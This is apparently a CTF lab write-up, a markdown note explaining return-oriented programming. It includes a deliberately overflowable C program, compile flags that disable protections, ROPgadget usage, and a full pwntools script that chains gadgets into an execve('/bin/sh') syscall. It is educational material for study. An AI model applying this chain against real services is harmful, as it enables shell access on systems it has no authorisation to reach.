 # Simple PWN - 0x07(ROP)
###### tags: `CTF` `PWN` `eductf`

## Background
* This is very similar to normal `BOF`.
* If a sample code that doesn't have a backdoor function and you cannot input a backdoor function as well, then you can use some code segment to merge a shellcode.
* Therefore, the main idea is use some `<operation>;ret` pattern segment to overlap stack.
![](https://imgur.com/YGarADK.png)

## Original Code
```c!=1
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0)
    setvbuf(stdout, 0, _IONBF, 0);

    char s[0x10];

    printf("Here is your \"/bin/sh\": %p\n", "/bin/sh");
    printf("Give me your ROP: ");
    read(0, s, 0x400);
    
    return 0;
}
```
* At line `11`, `%p` means pointer of `/bin/sh` string.
* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection. In addition, please use `-static` command to compile library at compile time, so that we can get `ROP gadget` more easily.
    ```bash!
    gcc -o rop rop.c -zexecstack -no-pie -fno-stack-protector -z norelro -static
    ```

## Exploit
* First, we can observe the program has overflow(very important), but has no other backdoor method can access or global variable can write shellcode. Then we can consider to use `ROP gadget` to construct chain.
* Second, we use `ROPgadget` to find suitable gadget
    ```bash!
    $ ROPgadget --multibr --binary rop > rop_gadget
    $ vim rop_gadget
    ```
    ![](https://imgur.com/IzeTvgK.png)
    ![](https://imgur.com/PlA5C8B.png)
    ![](https://imgur.com/zg28Pti.png)
    ![](https://imgur.com/WDS0HUh.png)
    ![reference link](https://imgur.com/dEh7b5n.png)
    * Note that, you may consider that `pop rdx ; pop rbx ; ret` is not what we want. We just want `pop rdx ; ret`. Therefore, we have to push one more value for `pop rbx ;` instruction.
* Then, we can construct our payload:
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    r = process('./rop')

    r.recvuntil('Here is your "/bin/sh": ')
    binsh = int(r.recvline()[:-1], 16)
    info(f"binsh: {hex(binsh)}")

    pop_rdi_ret = 0x401eaf
    pop_rsi_ret = 0x409ede
    pop_rdx_ret = 0x485aeb
    pop_rax_ret = 0x44fcc7
    syscall = 0x401c64
    ```
    * Note that, `r.recvline()[:-1]` is `b'0x498004'` and we must pop to `%rdi` at line `17` below.
* Then we can combine them together using [flat method](https://docs.pwntools.com/en/stable/util/packing.html#pwnlib.util.packing.flat). It'll flat the address with **length 8 bytes**.
    ```python!=16
    ROP = flat(
        pop_rdi_ret, binsh,
        pop_rsi_ret, 0,
        pop_rdx_ret, 0, 0,
        pop_rax_ret, 0x3b,
        syscall,
    )

    gdb.attach(r)
    r.sendafter("Give me your ROP: ", b'a' * 0x18 + ROP)

    r.interactive()
    ```
* Finally, we got shell!!!
    ![](https://imgur.com/dk0Z2mw.png)

## Analysis
* This is totally the same as our hypothesis.
![](https://imgur.com/OjcDNbu.png)
* We can see that all parameters are ready
    ![](https://imgur.com/xXx7HRQ.png)
## Reference
[NTUSTISC - Pwn Basic 3 [2019.03.26]](https://youtu.be/iA4Hrr17ooI?t=1239)
[Pwn week1](https://youtu.be/ktoVQB99Gj4?t=6712)